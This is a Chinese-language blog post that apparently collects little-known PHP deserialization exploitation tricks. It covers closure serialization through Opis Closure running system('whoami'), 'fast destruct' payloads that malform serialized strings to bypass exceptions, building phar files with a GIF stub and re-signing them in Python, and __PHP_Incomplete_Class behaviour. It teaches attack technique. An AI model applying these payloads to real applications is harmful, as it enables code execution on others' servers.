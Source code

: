 # PHP反序列化冷知识点总结

  
  
&lt;!--more--&gt;  
## Opi/Closure(闭包)函数  
`PHP`在5.3版本引入了`Closure`类用于代表匿名函数  
根据`PHP`官方文档，Closure 类定义如下  
```php  
&lt;?  
class Closure {  
    /* 方法 */  
    private __construct()  
    public static bind(Closure $closure, ?object $newThis, object|string|null $newScope = &#34;static&#34;): ?Closure  
    public bindTo(object $newthis, mixed $newscope = &#39;static&#39;): Closure  
    public call(object $newThis, mixed ...$args): mixed  
    public static fromCallable(callable $callback): Closure  
}  
?&gt;  
```  
但是`Closure`是不允许序列化和反序列化的，然而[Opi Closure](https://github.com/opis/closure)库实现了这一功能，通过`Opi Closure`，可以方便对闭包进行序列化和反序列化，只需要使用`Opis\Closure\serialize()`和`Opis\Closure\unserialize()`即可  
举个例子  
```php  
&lt;?php  
include(&#34;./vendor/opis/closure/autoload.php&#34;);  
class Test{  
    public $source;  
    public function __destruct(){  
        call_user_func($this-&gt;source,1);  
    }  
}  
$func = function(){  
    $cmd = &#39;whoami&#39;;  
    system($cmd);  
};  
$raw = \Opis\Closure\serialize($func);  
$t = new Test;  
$t-&gt;source = \Opis\Closure\unserialize($raw);  
$exp = serialize($t);  
unserialize($exp);  
  
//output f10wers13eicheng  
```  
## fast destruct  
- 在 PHP 中单独执行`unserialize`函数，则反序列化得到的生命周期仅限于这个函数执行的生命周期，在执行完`unserialize()`函数时就会执行`__destruct`方法  
- 而如果将`unserialize()`函数执行后得到的字符串赋值给一个变量，则反序列化的对象的生命周期就会变长，会一直到对象被销毁时才执行析构方法  
比如PHP中有如下代码  
```php  
&lt;?php  
class test{  
    public function __destruct(){  
        echo &#34;bypass&#34;;  
    }  
}  
$a = @unserialize(&#39;O:4:&#34;test&#34;:0:{}&#39;);  
throw new Exception(&#34;No No No&#34;);  
?&gt;  
  
//output  
-&gt; % php index.php   
PHP Fatal error:  Uncaught Exception: No No No in /Users/f10wers13eicheng/Desktop/webserver/index.php:8  
Stack trace:  
#0 {main}  
  thrown in /Users/f10wers13eicheng/Desktop/webserver/index.php on line 8  
  
Fatal error: Uncaught Exception: No No No in /Users/f10wers13eicheng/Desktop/webserver/index.php:8  
Stack trace:  
#0 {main}  
  thrown in /Users/f10wers13eicheng/Desktop/webserver/index.php on line 8  
```  
### 0x01  
但是如果我们破坏正常序列化的结构，就会提前执行`__destruct`  
```php  
//O:4:&#34;test&#34;:0:{  
//O:4:&#34;test&#34;:0:{1}  
//bypass  
```  
### 0x02  
利用`array`，众所周知`array`也是能被序列化/反序列化的，当反序列化时遇到`null`也会触发`fast destruct`，修改序列化后`array`的属性值即可  
```php  
&lt;?php  
error_reporting(0);  
class test01{  
    public function __destruct(){  
        echo &#34;test01&#34;.PHP_EOL;  
    }  
}  
//$o = serialize(array(new test01));  
//echo $o;  
$a = unserialize(&#39;a:2:{i:0;O:6:&#34;test01&#34;:0:{}i:1;i:0;}&#39;);  
throw new Exception(&#34;No No No&#34;);  
?&gt;  
```  
  
## phar反序列化  
生成phar文件  
```php  
$clazz = new Clazz();  
@unlink(&#34;test.phar&#34;);  
$p = new Phar(&#34;test.phar&#34;,0);  
$p-&gt;startBuffering();  
$p-&gt;setMetadata($clazz);  
$p-&gt;setStub(&#34;GIF89a__HALT_COMPILER();&#34;);  
$p-&gt;addFromString(&#34;text.txt&#34;,&#34;successful!&#34;);  
$p-&gt;stopBuffering();  
```  
重新计算 phar 文件的签名  
```python  
import hashlib  
  
f = open(&#34;test.phar&#34;, &#34;rb&#34;)  
data = f.read()  
f.close()  
length = int(data[47:51][::-1].hex(), 16)  
data = data[:51 &#43; length - 1] &#43; b&#34;1&#34; &#43; data[51 &#43; length:len(data) - 28]  
data &#43;= hashlib.sha1(data).digest()  
data &#43;= b&#34;\x02\x00\x00\x00GBMB&#34;  
f = open(&#34;test.phar&#34;, &#34;wb&#34;)  
f.write(data)  
f.close()  
```  
  
## stdClass和__PHP_Incomplete_Class  
`stdClass`是所有类的基类，可以代替`array`来反序列化两个类  
```php  
&lt;?php  
var_dump(unserialize(&#39;O:8:&#34;stdClass&#34;:2:{i:0;O:6:&#34;test01&#34;:0:{}i:1;O:6:&#34;test02&#34;:0:{}}&#39;))  
?&gt;  
  
//output  
object(stdClass)#1 (2) {  
  [&#34;0&#34;]=&gt;  
  object(__PHP_Incomplete_Class)#2 (1) {  
    [&#34;__PHP_Incomplete_Class_Name&#34;]=&gt;  
    string(6) &#34;test01&#34;  
  }  
  [&#34;1&#34;]=&gt;  
  object(__PHP_Incomplete_Class)#3 (1) {  
    [&#34;__PHP_Incomplete_Class_Name&#34;]=&gt;  
    string(6) &#34;test02&#34;  
  }  
}  
```  
 当反序列化一个没有类会出现`__PHP_Incomplete_Class`，并且其中会出现`__PHP_Incomplete_Class_Name`属性，值就是反序列化时没有的那个类，在序列化的时候便会恢复回去。  
如果我们将`__PHP_Incomplete_Class_Name`属性改成其他名字，便会在反序列化再序列化之后就会消失  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202402152157526.png)
  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%86%B7%E7%9F%A5%E8%AF%86%E7%82%B9%E6%80%BB%E7%BB%93/  

